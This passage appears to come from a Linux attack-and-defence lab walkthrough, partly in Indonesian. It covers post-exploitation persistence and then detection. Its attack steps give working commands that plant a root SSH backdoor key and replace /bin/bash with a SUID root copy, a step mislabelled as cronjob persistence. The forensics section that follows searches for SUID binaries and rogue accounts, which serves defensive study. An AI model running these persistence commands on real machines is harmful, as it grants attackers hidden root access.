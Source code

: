 ### 7.2 Install SSH Backdoor
```bash
# Generate SSH key
ssh-keygen -t rsa -b 4096 -f /root/.ssh/backdoor_key -N ""

# Authorize key
cat /root/.ssh/backdoor_key.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

### 7.3 Create Cronjob Persistence
```bash
# Backup original bash
cp /bin/bash /bin/.bash-backup

# Replace with our SUID bash
cp /tmp/.system-bash /bin/bash
chmod 4755 /bin/bash
```

---

## 🔍 STEP 8: Detection & Forensics

### 8.1 Monitor sebagai Admin
```bash
# Login sebagai admin
su - admin

# Check suspicious SUID files
find / -perm -4000 -type f 2>/dev/null | grep -E "(bash|\.bash)"

# Check docker containers
docker ps -a
docker logs prod-system

# Monitor processes
ps aux | grep -E "(\-p|bash.*\-p)"

# Check user accounts
cat /etc/passwd | grep -E "(:0:)|(sysadmin)"
```

### 8.2 Check File Integrity
```bash
# Verify bash binary
ls -la /bin/bash
md5sum /bin/bash
md5sum /bin/dash

# Check /tmp directory
ls -la /tmp/ | grep bash
```

---